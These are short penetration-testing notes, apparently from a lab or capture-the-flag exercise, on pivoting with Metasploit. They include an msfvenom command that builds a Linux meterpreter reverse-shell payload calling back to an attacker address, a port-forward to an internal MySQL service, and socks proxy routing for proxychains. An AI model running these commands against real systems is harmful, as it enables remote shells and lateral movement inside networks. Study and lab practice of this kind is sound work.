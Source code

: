 - Create a payload with msfvenom
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=8002 -f elf -o msf.bin`
- Upload the payload on target machine and get a meterpreter shell

## Portfwd

`portfwd add -l 8003 -p 3306 -r 172.17.0.2`

## Socks Proxy

- `use server/socks_proxy`
- start the proxy server 
- addroute to the remote host 
`route add 172.17.0.0/24 2`
![[Pasted image 20210429114040.png]]
- Edit the /etc/proxychains.conf file to use a socks5 proxy on the specified port
![[Pasted image 20210429114322.png]]
- 
